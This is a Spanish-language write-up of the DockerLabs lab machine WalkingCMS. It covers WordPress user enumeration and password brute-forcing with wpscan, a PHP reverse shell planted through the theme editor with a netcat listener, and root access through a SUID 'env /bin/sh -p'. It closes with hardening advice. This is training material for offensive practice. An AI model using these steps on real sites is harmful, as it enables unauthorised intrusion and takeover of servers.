# DockerLabs — WalkingCMS 📝

Writeup / walkthrough de la máquina **WalkingCMS** de la plataforma **DockerLabs**. El laboratorio gira en torno a un sitio **WordPress**: enumeración de usuarios y fuerza bruta con `wpscan`, obtención de ejecución remota de código a través del **editor de temas** del panel de administración, y escalada final a `root` explotando un binario SUID mal configurado (`env`).

---

## 🧰 Herramientas utilizadas

- `nmap` — escaneo de puertos y detección de servicios
- `gobuster` — fuerza bruta de directorios web
- `wpscan` — enumeración de usuarios y fuerza bruta de credenciales en WordPress
- **Theme Editor** de WordPress — inyección de código PHP (reverse shell)
- `netcat` — recepción de la conexión reversa
- GTFOBins (`env`) — escalada de privilegios vía binario SUID

## 📋 Datos de la máquina

| Campo | Valor |
|---|---|
| IP | `172.17.0.2` |
| Plataforma | DockerLabs |
| Nombre | WalkingCMS |

---

## 1. Despliegue de la máquina

```bash
chmod +x auto_deploy.sh
sudo ./auto_deploy.sh walkingcms.tar
```



---

## 2. Reconocimiento

### Escaneo con Nmap

```bash
nmap -sV -sC 172.17.0.2
```



**Puerto encontrado:**

| Puerto | Servicio |
|---|---|
| 80 | HTTP (Apache2 — página por defecto de Debian) |

### Página web en el puerto 80

Al visitar la IP directamente solo se observa la página por defecto de Apache2, sin contenido adicional.



---

## 3. Enumeración web

### Escaneo de directorios con Gobuster

```bash
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt \
  --exclude-length 10701
```

> Se excluyen las respuestas de longitud `10701` para filtrar los falsos positivos generados por el servidor.



Se descubre el directorio **`/wordpress`**, correspondiente a una instalación de **WordPress**.



Se revisa el código fuente de la página en busca de comentarios o pistas, sin encontrar nada relevante.

### Prueba de acceso al panel de administración

Se localiza el panel de login en la ruta estándar `wp-login.php` y se prueban credenciales comunes (`admin`/`admin`), sin éxito. El propio formulario confirma que el usuario `admin` no existe en el sitio:



---

## 4. Explotación — Enumeración y fuerza bruta con WPScan

```bash
wpscan --url http://172.17.0.2/wordpress \
  -P /usr/share/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords-100000.txt
```



WPScan enumera usuarios válidos a través del **RSS Generator** y realiza un ataque de contraseñas contra `xmlrpc.php`.

✅ **Credenciales encontradas:**

```
Usuario: mario
Contraseña: love
```

### Acceso al panel de WordPress



Acceso exitoso al escritorio de WordPress (v7.1.2) con el usuario `mario`.

---

## 5. Ejecución remota de código vía Theme Editor

Dentro de **Apariencia → Editor de código del tema**, con el tema activo **Twenty Twenty-Five**, se localiza el archivo destinado a gestionar los errores 404: **`patterns/hidden-404.php`**. Al tener el usuario permisos de edición sobre los archivos del tema, se reemplaza su contenido por una **reverse shell en PHP** (payload PentestMonkey):

```php
$ip = '172.17.0.1';
$port = 9001;
```



### Puesta en escucha con Netcat

```bash
nc -lvp 9001
```

### Activación del payload

Se accede directamente a la URL del archivo modificado para disparar la ejecución del código:

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentyfive/patterns/hidden-404.php
```



✅ Conexión reversa recibida como el usuario **`www-data`**.

---

## 6. Estabilización de la shell

Se aplica la secuencia estándar para obtener una shell interactiva completa (TTY):

```bash
# Suspender la shell actual
Ctrl + Z

stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
script /dev/null -c bash
```



Con la shell ya estable, se enumeran los binarios con el bit **SUID** activo:

```bash
find / -perm -4000 2>/dev/null
```

```
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/env      ⚠️
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
```

El binario **`/usr/bin/env`** con permisos SUID llama la atención: según **GTFOBins**, puede utilizarse para generar una shell heredando privilegios elevados.

---

## 7. Escalada de privilegios a root

### Referencia GTFOBins para `env`



```bash
env /bin/sh -p
```

### Explotación

```bash
env /bin/sh -p
id
```



La bandera `-p` conserva los privilegios efectivos, obteniendo `euid=0(root)`.

### Verificación final

```bash
whoami
```



✅ **`root`** — privilegios escalados con éxito. Máquina completada.

---

## 📌 Conclusiones

- La instalación de **WordPress** exponía nombres de usuario a través del **RSS Generator**, lo que permitió a `wpscan` enumerar la cuenta `mario` sin necesidad de fuerza bruta a ciegas.
- La contraseña del usuario `mario` era débil (`love`) y fue obtenida mediante un ataque de contraseñas contra `xmlrpc.php`, un vector clásico y ruidoso pero efectivo en instalaciones sin protección adicional (rate limiting, plugins de seguridad, deshabilitar XML-RPC).
- El **Editor de temas** de WordPress, accesible a cualquier usuario con rol de administrador, permite modificar directamente archivos PHP del servidor — una funcionalidad legítima que se convierte en un vector crítico de **ejecución remota de código** si la cuenta de administrador se ve comprometida.
- La escalada de privilegios fue posible por un binario del sistema (**`/usr/bin/env`**) con el bit **SUID** activado de forma incorrecta, permitiendo generar una shell con privilegios de `root` mediante la bandera `-p`.
- **Lecciones de seguridad:**
  - Deshabilitar o proteger `xmlrpc.php` si no se utiliza, y limitar los intentos de autenticación (rate limiting / plugins como Wordfence).
  - Aplicar políticas de contraseñas fuertes para todas las cuentas, incluidas las de administración de WordPress.
  - Restringir o auditar el uso del **Editor de temas/plugins** en producción; lo ideal es deshabilitarlo (`DISALLOW_FILE_EDIT` en `wp-config.php`) y gestionar el código mediante control de versiones.
  - Auditar periódicamente los binarios del sistema con el bit SUID activo (`find / -perm -4000`) y retirar el bit de aquellos que no lo requieran, como `env`.

---

## 🏷️ Categoría

`WordPress` · `User Enumeration` · `Brute Force` · `RCE` · `Privilege Escalation` · `SUID` · `GTFOBins` · `DockerLabs`
